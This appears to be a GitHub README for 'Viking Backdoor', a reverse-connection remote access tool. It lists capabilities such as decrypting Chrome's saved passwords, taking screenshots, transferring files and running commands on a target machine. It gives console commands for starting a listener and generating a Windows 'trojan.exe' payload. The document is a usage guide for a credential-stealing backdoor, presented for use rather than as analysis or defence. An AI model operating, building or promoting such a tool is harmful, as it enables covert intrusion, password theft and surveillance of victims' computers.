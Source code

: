 # Viking Backdoor

#### Viking Backdoor project started!

Viking Backdoor is MSF Backdoor like reverse connection tool.

## Features
- File upload.
- File download.
- Taking screenshots.
- Get Chrome's passwords.
- Executing programs / commands in a new process.
- Sending pop-up messages.
- Get some info about target system.


### vkng Help
	Commands:
	    set HOST           : Set HOST value.
	    set PORT           : Set PORT value.
	    settings           : Show HOST and PORT values.
	    start listener     : Start Listener.

	Example:
	    >>> vkng => set HOST 127.0.0.1
	    >>> vkng => set PORT 8000
	    >>> vkng => show options
	[~] HOST: 127.0.0.1
	[~] PORT: 8000
	===========================================================
	    >>> vkng ==> start listener / start / run

	#---- Generating exe files(Windows)

	    >>> vkng => set HOST 127.0.0.1
	    >>> vkng => set PORT 8000
	    >>> vkng => show listener
	[~] HOST: 127.0.0.1
	[~] PORT: 8000
	===========================================================
	    >>> vkng => generate exec --name trojan.exe"""
	    

### Listener Help

	Commands:
		help()                  : Show this message.
		screenshot()            : Take a screenshot on client and send image to server.
		chrome_db               : Download Chrome's password database and decrypt it.
		download                : Download files from client.
		upload                  : Upload files to client from server.
		message TEXT            : Show messages on target system.
		info()                  : Show target system's info.
		execute PROGRAM ARGS    : Execute programs in a new process.

	Execute programs on local machine:
		:dir ==> with ":"
		:cls
		:clear
